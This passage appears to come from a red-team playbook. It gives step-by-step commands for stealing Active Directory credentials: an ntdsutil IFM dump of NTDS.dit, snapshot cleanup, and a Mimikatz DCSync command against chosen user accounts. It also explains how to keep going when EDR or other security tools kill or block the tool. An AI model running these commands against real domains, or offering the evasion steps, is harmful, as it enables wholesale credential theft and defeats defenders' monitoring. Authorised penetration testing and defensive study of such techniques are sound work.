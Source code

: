 Dump NTDS.dit using one of the following methods, noting the snapshot number. The output path should be an empty directory:

```
cmd> ntdsutil “ac in ntds” “ifm” “cr fu {{ output_path }}” q q
```

#### Notes

In the case that ntdsutil is killed during execution (either manually or by an EDR product), the snapshots need to be cleaned up. You cannot do so using vssadmin because they are in use. Delete the snapshot with the following command, using the snapshot number from the dump command in the above guidance:

```
cmd> ntdsutil.exe snapshot "list all" "delete {{ snapshot_number }}" quit quit
```

If the command itself is blocked by a security tool, ntdsutil.exe's interactive mode can be used if executing interactively. The commands are the same but should be used one at a time:

```
cmd> ntdsutil.exe 
ntdsutil> ac in ntds 
ntdsutil> ifm 
ntdsutil> cr fu C:\path\to\ntds-dump
ntdsutil> q q
```

### Cleanup

1. Delete the snapshot if necessary (see "Notes" above)
1. Remove the NTDS.dit copy at the path you specified during execution


## DCSync - via Mimikatz

The DCSync attack mimics normal replication behavior between DCs, allowing for remote extraction of credentials

Uses Mimikatz's lsadump::dcsync command

### Prerequisites

- Command execution in the context of an account with Active Directory replication rights
- User accounts to target
- Mimikatz binary (https://github.com/gentilkiwi/mimikatz)

### Guidance

```
mimikatz> lsadump::dcsync /domain:{{ domain }} /user:{{ target_username }}
```

### Troubleshooting

